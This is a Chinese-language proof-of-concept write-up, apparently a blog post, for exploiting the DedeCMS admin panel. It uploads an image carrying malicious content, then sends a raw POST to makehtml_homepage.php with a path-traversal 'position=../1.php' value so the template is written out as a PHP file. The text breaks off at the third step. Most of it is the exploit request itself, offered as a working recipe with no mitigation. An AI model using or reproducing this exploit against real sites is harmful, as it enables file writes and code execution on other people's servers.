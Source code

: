 ### 第一步 上传图片马  
  
  
利用系统的文件管理器上传包含恶意内容的图片文件在且/templets/目录中  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PWHC5xSLtabRVdAcrGRjCua1xSNMUxYJFmWKGVJIpJic6ZXRqYT6uknA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28P4PRzy32sPvP5vGow9OtCKv5iaibniaKtntbUQk0XGbcN6JB7I1lxhCkQA/640?wx_fmt=png&from=appmsg "")  
  
  
  
这样/templets/下存在一个phpinfo.png 的文件  
  
### 第二步  更改数据库中的两个参数的内容  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PQKVybK53SL9QOia5lVoz2cmXISWJjIHibn51KZOXeFWPKm84wVOiaLr0w/640?wx_fmt=png&from=appmsg "")  
  
  
  
Poc  
  
```
POST /dede/makehtml_homepage.php HTTP/1.1Host: dede.test.comCache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=a8g7jmunlsc13k921p5i7e5idh; _csrf_name_65a662a9=fe9ab3ba5fb0c17275051ecaf0cd79f3; _csrf_name_65a662a91BH21ANI1AGD297L1FF21LN02BGE1DNG=14d49edb9c9ca536; XDEBUG_SESSION=XDEBUG_ECLIPSE; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=bd2d5486c005cdd5; DedeLoginTime=1722498125; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=82a6253c29408017Accept-Encoding: gzip, deflate, brConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 59dopost=make&saveset=1&templet=phpinfo.png&position=../1.php
```  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PJP9VvqZcy9AibibbBLB4hI0uG9kzYfL4qEP91u3jk42yq6HibrmEM8kSg/640?wx_fmt=png&from=appmsg "")  
  
  
  
发现数据库中的内容被更改为我们指定的内容  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PzzHZCqG68gPicov4iaO2tcPghxgRVPSW1CPtQCeVicicicLRBj8YclQxlrw/640?wx_fmt=png&from=appmsg "")  
  
  
### 第三步 文件覆盖操作  
  
  
将phpinfo.png的内容覆盖到1.php中  
  
